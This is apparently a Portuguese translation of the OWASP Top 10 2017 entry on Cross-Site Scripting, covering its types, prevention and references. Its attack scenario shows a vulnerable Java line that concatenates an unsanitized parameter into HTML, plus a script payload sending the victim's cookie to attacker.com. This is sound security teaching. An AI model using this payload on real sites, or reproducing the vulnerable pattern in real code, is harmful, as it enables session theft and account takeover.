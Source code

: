 # A7:2017 Cross-Site Scripting (XSS)

| Atacantes / Vetores de Ataque | Falhas de Segurança | Impacto |
| -- | -- | -- |
| Nível de acesso : Explorabilidade 3 | Predomínio 3 : Detectabilidade 3 | Tecnicidade 2 : Negócio |
| Ferramentas automáticas podem detetar e tirar partido dos 3 tipos de XSS. Existem ferramentas grátis capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para Reflected and DOM XSS mas severo para Stored XSS, onde a execução de código remotamente permite ao atacante roubar credenciais, sessões ou até mesmo infectar a máquina da vítima com malware. |

## A minha aplicação é vulnerável?

Existem 3 tipos de XSS que normalmente atacam o browser dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem no seu HTML input inserido pelo utilizador, sendo que este não foi devidamente sanitizado. Um ataque bem sucedido pode permitir ao atacante executar qualquer tipo de código HTML e JavaScript no browser da vítima. Normalmente a vítima terá de aceder a uma página maliciosa para que seja infectada.
* **Stored XSS**: A aplicação ou API armazenam informação não sanitizada inserida pelo utilizador. Esta informação poderá depois ser mostrada numa página a outro utilizador ou administrador e ser utilizada para inserir algum tipo de código malicioso na página. Este tipo de XSS é considerado de risco alto ou crítico.
* **DOM XSS**: É um ataque onde o código maligno do atacante é inserido no DOM de uma página dinamicamente. Ao contrário do Reflected e Stored XSS em que o servidor é comprometido, o DOM XSS acontece apenas no lado do cliente.

Ataques de XSS incluem riscos tais como: roubo de sessão, roubo de contas, alteração do DOM, download de software malicioso, key logging e outros.

## Como posso evitar?

Para prevenir o XSS, é necessário identificar e tratar corretamente a informação controlada pelo utilizador. Para isso, podemos:

* Utilizar frameworks que sanitizem automaticamente e corretamente o input inserido pelo utilizador como é o caso de frameworks como Ruby on Rails e React JS. É preciso entender as limitações destas frameworks e tratar corretamente desses casos.
* Escapar corretamente informação desconhecida do pedido HTTP tendo em conta o contexto onde esta informação vai ser inserida no HTML (body, attribute, JavaScript, CSS ou URL) vai resolver os riscos de Reflected e Stored XSS. O documento [OWASP Cheat Sheet 'XSS Prevention'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) inclui detalhes de como deve ser escapada a informação desconhecida.
* Aplicar o encoding correto quando se faz alguma modificação na página no lado do cliente previne o DOM XSS. Quando isto não é possível, podemos também utilizar algumas das técnicas referidas no documento OWASP Cheat Sheet 'XSS Prevention'.
* Adicionar regras de [Content Security Policy (CSP)](https://developer.mozilla.org/pt-PT/docs/Web/HTTP/CSP) na aplicação é uma defesa muito boa contra XSS. É muito eficaz contra XSS se não existirem outro tipo de vulnerabilidades que possibilitem a inclusão de código malicioso através de ficheiros locais da aplicação.

## Exemplo de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do seu HTML, sem validação ou sanitização:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante altera o parâmetro "CC" no browser para:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Isto irá fazer com que a sessão da vítima seja enviada para a página do atacante. A partir daqui o atacante será capaz de se fazer passar pela vítima.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer mecanismo de defesa automática contra [Cross-Site Request Forgery (CSRF)](https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF).

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externas

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
